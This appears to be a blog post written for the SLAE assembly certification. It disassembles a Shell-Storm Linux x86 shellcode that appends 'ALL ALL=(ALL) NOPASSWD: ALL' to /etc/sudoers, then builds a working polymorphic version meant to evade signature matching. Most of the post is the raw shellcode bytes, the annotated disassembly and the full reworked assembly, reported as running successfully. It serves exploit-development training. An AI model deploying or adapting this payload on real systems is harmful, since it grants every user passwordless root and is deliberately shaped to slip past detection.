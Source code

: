 ```yaml
---
layout: post
title: SLAE 6.3 - Shell-Storm Polymorphism - force reboot
date:   2019-03-06
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 3 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* The polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The 3rd shellcode we will try to make a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-62.php](http://shell-storm.org/shellcode/files/shellcode-62.php)

The length is 86 bytes.  To fit the requirements for the exam, we have to make a version no greater than 150% of the original, giving us a maximum of 129 bytes.

Let's check the shellcode and what it does:
```nasm
echo -ne "\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  686F657273        push dword 0x7372656f
00000008  682F737564        push dword 0x6475732f
0000000D  682F657463        push dword 0x6374652f     ; /etc/sudoers
00000012  89E3              mov ebx,esp
00000014  66B90104          mov cx,0x401
00000018  B005              mov al,0x5
0000001A  CD80              int 0x80                  ; call open
0000001C  89C3              mov ebx,eax
0000001E  31C0              xor eax,eax
00000020  50                push eax
00000021  68414C4C0A        push dword 0xa4c4c41
00000026  6857443A20        push dword 0x203a4457
0000002B  6850415353        push dword 0x53534150
00000030  6829204E4F        push dword 0x4f4e2029
00000035  6828414C4C        push dword 0x4c4c4128
0000003A  68414C4C3D        push dword 0x3d4c4c41
0000003F  68414C4C20        push dword 0x204c4c41       ; ALL ALL=(ALL) NOPASSWD: ALL\n
00000044  89E1              mov ecx,esp
00000046  B21C              mov dl,0x1c
00000048  B004              mov al,0x4
0000004A  CD80              int 0x80                     ; call write
0000004C  B006              mov al,0x6
0000004E  CD80              int 0x80                     ; call close
00000050  31DB              xor ebx,ebx
00000052  B001              mov al,0x1
00000054  CD80              int 0x80                      ; call exit
```
So we have push "/etc/sudoers", call open

Push "ALL ALL=(ALL) NOPASSWD: ALL\n", call write

call close, call exit.  Looks good!  Let's start our attempt at a polymorphic version.

So let's zero out EAX and push it to the stack.  I am going to subtract EAX from itself to get 0, I will update the stack pointer myself then place the value at the new ESP location.  This creates some variation on how we are pushing a value to the stack.  Remember, the stack grows towards 0 so we subtract 4 from esp in order to make room for the value we want to put on the stack.
```nasm
sub eax, eax
sub esp, 4
mov [esp], eax
```
Next we will push "/etc/sudoers" to the stack and update ebx to the stack pointer.  I have decided to split up the pushes if any signatures match on the dword pushes for sudoers.  I left the /etc as a dword to mix up the combinations of pushes since /etc does not necessarily mean we are up to no good.
```nasm
push word 0x7372
push word 0x656f
push word 0x6475
push word 0x732f
push dword 0x6374652f
sub ebx, ebx
add ebx, esp
```
Setting up ECX and EAX:

EAX is already 0, so we can and ECX with EAX in order to zero out ECX.  We then add the argument value we need to CX mixing it up since the original used mov instructions.  We then use add to AL for the syscall value since EAX is already zero'd out and make the syscall.
```nasm
and ecx, eax
add cx, 0x401
add al, 0x5
int 0x80
```
Next, we move the return value into EBX.  The original uses a mov instruction so we can just replace that with xchg. 

zero out EAX by subtracting it from itself, then push the null value using our manual stack manipulation. 

Then we will push the string to the stack.  This time we have just split the word PASS into two word pushes vs 1 dword push.

Then ESP's value is moved into ECX.  The variation that I will use is to subtract ECX from itself to make it zero, then add esp to it so that ECX = ESP.
```nasm
xchg ebx, eax
sub eax, eax
sub esp, 4
mov [esp], eax
push dword 0xa4c4c41
push dword 0x203a4457
push word 0x5353
push word 0x4150
push dword 0x4f4e2029
push dword 0x4c4c4128
push dword 0x3d4c4c41
push dword 0x204c4c41
sub ecx, ecx
add ecx, esp
```
Next we need to set up the rest of the args, EDX and EAX. Once those args are prepared, it will be time to make the syscall.

My EDX was not zero'd out here and would not work without adding an instruction to make sure edx = 0x1c. So I used XOR to make EDX zero, then moved the proper argument value into DL.  EAX is still zero from previous instructions at this point, so I just add 0x4 to get our syscall value.
```nasm
xor edx, edx
mov dl, 0x1c
add al, 0x4
int 0x80
```
Then we need to update AL for the call to 'close'.
```nasm
mov al, 0x6
int 0x80
```
For the last call, we need to zero out EBX and make EAX = 1.
```nasm
mov al, 0x1
sub ebx, ebx
int 0x80
```
Here is the final outcome:
```nasm
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0x7372656f                   push word 0x7372
                                        push word 0x656f
push dword 0x6475732f                   push word 0x6475
                                        push word 0x732f
push dword 0x6374652f                   push dword 0x6374652f   
mov ebx,esp                             sub ebx, ebx
                                        add ebx, esp
mov cx,0x401                            and ecx, eax
                                        add cx ,0x401
mov al,0x5                              add al, 0x5
int 0x80                                int 0x80                
mov ebx,eax                             xchg ebx, eax
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0xa4c4c41                    push dword 0xa4c4c41
push dword 0x203a4457                   push dword 0x203a4457
push dword 0x53534150                   push word 0x5353
                                        push word 0x4150
push dword 0x4f4e2029                   push dword 0x4f4e2029
push dword 0x4c4c4128                   push dword 0x4c4c4128
push dword 0x3d4c4c41                   push dword 0x3d4c4c41
push dword 0x204c4c41                   push dword 0x204c4c41
mov ecx,esp                             sub ecx, ecx
                                        add ecx, esp
mov dl,0x1c                             xor edx, edx
                                        mov dl, 0x1c
mov al,0x4                              add al, 0x4
int 0x80                                int 0x80
mov al,0x6                              mov al, 0x6
int 0x80                                int 0x80
xor ebx,ebx                             mov al, 0x1
mov al,0x1                              sub ebx, ebx
int 0x80                                int 0x80
```
Our total length of the new shellcode is 113 bytes and runs successfully.
